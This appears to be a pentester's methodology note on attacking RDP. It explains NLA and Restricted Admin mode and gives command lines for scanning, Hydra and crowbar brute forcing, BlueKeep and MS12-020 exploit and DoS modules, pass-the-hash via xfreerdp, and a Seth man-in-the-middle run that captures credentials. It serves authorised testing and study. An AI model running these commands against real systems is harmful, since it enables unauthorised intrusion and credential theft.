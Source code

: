 # RDP - Methodology

### Overview

The `Remote Desktop Protocol (RDP)` is a proprietary protocol developed by
Microsoft, which provides a user with a graphical interface to connect to
another computer over a network connection. The user employs `RDP` client
software for this purpose, while the other computer must run a `RDP` server
software.

`RDP` authentication mechanism rely on Windows local or Active Directory domain
credentials.

###### Network Level Authentication NLA

`RDP` may uses `Network Level Authentication (NLA)`, introduced in `RDP 6.0`
and supported initially in Microsoft Windows Vista / Windows Server 2008, which
requires the connecting user to authenticate before a session is established
with the server and prevents the use of resources on the server from the load
of the graphical login screen.

###### Restricted Admin mode

The `Restricted Admin mode` is a security feature introduced in the Microsoft
Windows 8.1 and Server 2012 R2 operating systems. The feature has been
backported to Windows 7 and Server 2008.

`Restricted Admin mode` prevents the connecting user's credentials to be stored
on the remote host by transforming the logon to a `network logon` (`Type 3`)
instead of a `remote interactive logon` (`Type 10`). Indeed, for
`remote interactive logon`, the plaintext password is provided and the user's
credentials are stored in the `LSASS` process of the remote host. In
`Restricted Admin mode`, no form of credentials (plaintext password, `LM` /
`NTLM` hashes or `kerberos` `TGT`) are stored on the remote host.

`Restricted Admin mode` must be enabled on the remote host
(`DisableRestrictedAdmin` registry key to (`REG_DWORD`) `0` which is not the
case by default) and the client must connect in `Restricted Admin mode` (for
example: `mstsc.exe /restrictedAdmin`). Note that enabling `Restricted Admin
mode` allow `Pass-the-hash` authentication over `RDP`.

Only members of the local `Administrators` group may authenticate in
`Restricted Admin` mode and the network identity (for remote access over the
network) of the `RDP` session will, by default, be authenticated using the
`RDP` host machine account. This authentication using the `RDP` host machine
account can be disabled by setting the `DisableRestrictedAdminOutboundCreds`
registry key to (`REG_DWORD`) `1`.

### Network scan

`Nmap` and the `Metasploit`'s `auxiliary/scanner/rdp/rdp_scanner` module can be
used to scan the network for `RDP` services.

`Nmap`'s service and default `RDP` scripts scan may allow for the retrieval of
information about the hosts (`NetBIOS` / `DNS` hostname, Windows product
version, `SSL` / `TLS` subject and issuer, etc.). `Metasploit`'s
`auxiliary/scanner/rdp/rdp_scanner` module will check whether or not `NLA` is
enabled.

```
nmap -n -Pn -v -p 3389 -sV -sC -oA <NMAP_OUTPUT> <RANGE | CIDR>

msf > use auxiliary/scanner/rdp/rdp_scanner
msf auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS <HOSTNAME | IP | CIDR | file:<PATH>>
```

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting in `RDP`.
Vertical brute forcing may thus not be possible.

However, horizontal `RDP` brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be a
member of the local `Administrators` group (and thus can not connect through
`PsExec` like tool for example) but can be a member of the `Remote Desktop
Users` group.

`Patator`, `Hydra` or the `crowbar` Python Script can be used to brute force
`RDP` access. `Patator` and `crowbar` both support `NLA` (as of December 2018,
`Hydra` does not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Known vulnerabilities

`nmap` can be used to check for the `CVE-2012-0002` / `MS12-020` exploit.
The `Metasploit`'s `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` module and
`rdpscan` can be used to scan for `BlueKeep` / `CVE-2019-0708`.

```
# BlueKeep CVE-2019-0708
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# set RHOSTS file:<PATH>
# set THREADS <THREADS_NUMBER>

rdpscan.exe --file E:\Keolis\1-Wales\1-Pentest\hosts\IP.txt

# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### BlueKeep CVE-2019-0708

An heap corruption can occur in the RDP protocol that allows for arbitrary code
execution at the system level pre-authentication.

Microsoft identified the following Windows versions as vulnerable:
  - Windows XP
  - Windows Vista
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008
  - Windows Server 2008 R2

Windows versions newer than Windows 7 and Windows Server 2012 are not vulnerable.

The `Metasploit` module `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` can be
used to exploit the vulnerability. Note that the exploit is not yet polished.

```
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

###### CVE-2012-0002 / MS12-020

The `CVE-2012-0002` / `MS12-020` vulnerability can be used both to realize a
Denial Of Service and remotely execute code on the target.

The `Metasploit`'s `auxiliary/dos/windows/rdp/ms12_020_maxchannelids` may be
used to realize a `DoS` of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of December 2018, no public proof-of-concept code that results in remote
code execution is available.

### RDP clients

###### Windows

On Windows, the default `Microsoft Remote Desktop` application
("Connexion Bureau à distance") or the `Remote Desktop Manager` third party
application can be used as `RDP` clients.

The `Remote Desktop Manager` allows for the configuration and storing of
multiples `RDP` connection (host and authentication information). A free
edition is available as well as a commercial grade enterprise edition.

###### Linux

On Linux, `FreeRDP` (`xfreerdp`), `rdesktop` or `Remmina` (GUI) can be used as
`RDP` clients.

```
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /p:'<PASSWORD>' /v:<HOSTNAME | IP>[:<PORT>]
# Restricted admin mode.
xfreerdp /restricted-admin /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /p:'<PASSWORD>' /v:<HOSTNAME | IP>

rdesktop -d '<DOMAIN | WORKGROUP>' -u '<USERNAME>' <HOSTNAME | IP>[:<PORT>]

Remmina
```

### Pass-the-hash over RDP

`FreeRDP` can be used to authenticate using the hash through RDP against hosts
using the `Restricted Admin mode` feature.

```
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /pth:<HASH> /v:<HOSTNAME | IP>
```

### Man-in-the-middle attack

`Seth` is a tool written in Python and Bash to MitM `RDP` connections that
attempts to downgrade the connection in order to extract clear text credentials.

`Seth` can be used regardless if `Network Level Authentication (NLA)` is
enabled or not on the targeted `RDP` host.

`Seth` will notably:
  - Spoof `ARP` replies to redirect traffic from the victim host to the
    attacker machine and then to the target RDP server.
  - Configure an `iptable` rule to reject `SYN` packet to prevent direct `RDP`
    authentication.
  - Clone the `SSL` certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade `Kerberos` authentication to `NTLM`.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If `Administrator` / `NT AUTHORITY\SYSTEM` privileges could be obtained on a
host, `RDP` sessions of others users can be hijacked. This could be used to
access the host as the hijacked user through a GUI interface with out knowing
its password.  

To hijack `RDP` session refer to the `[Windows] Post Exploitation` note.
